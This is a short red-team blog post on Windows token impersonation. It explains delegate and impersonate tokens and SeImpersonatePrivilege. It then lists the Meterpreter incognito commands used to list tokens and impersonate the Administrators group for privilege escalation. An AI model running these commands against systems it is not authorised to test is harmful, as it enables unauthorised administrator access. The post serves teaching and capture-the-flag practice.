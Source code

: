 ```yaml
---
layout: post
title:  "Token Imporsanate With Meterpreter Shell"
date:   2020-04-09 02:24:32 +0530
categories: redteam ctf
---
```


Token imporsanation is a windows privilage escalation technique. This blog discusses about how windows tokens work and how tokens can be used to escalate 
privilages into administrator account.

## What is a Token

When a user login to the windows system through physically or through a remote desktop, the os create a token and keep it in memory until the user disconnect or log off or 
computer reboot. Tokens are like cookies for windows. It holds the information about use authorization.

There are two types of Tokens exists,
<ol>
<li>Delegate - Created in an interactive login such as conventionally logging into the console, logging in remotely using Terminal Services
or using other remote access solutions such as Citrix.</li> 
<li>Imporsonate - Created in non-interactive login such as ftp server login, apache server login.</li>
</ol>

If the SeImpoersonate privilage is enable we can imporsanate any user through his token,

## Attack Using Meterpreter Shell

First we need to load incognito module,
```
load incognito
```
List All the tokens 
```
list_tokens -g
```
![List the tokens](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_imporsanate/list_token.png)
</br>
Then we can imporsanate the administrator using administrator token
```
impersonate_token "BUILTIN\Administrators"
```
![Imporsanate the administrator token](https://github.com/janithmalinga/janithmalinga.github.io/blob/master/_images/_imporsanate/imposanate_admin.png?raw=true)
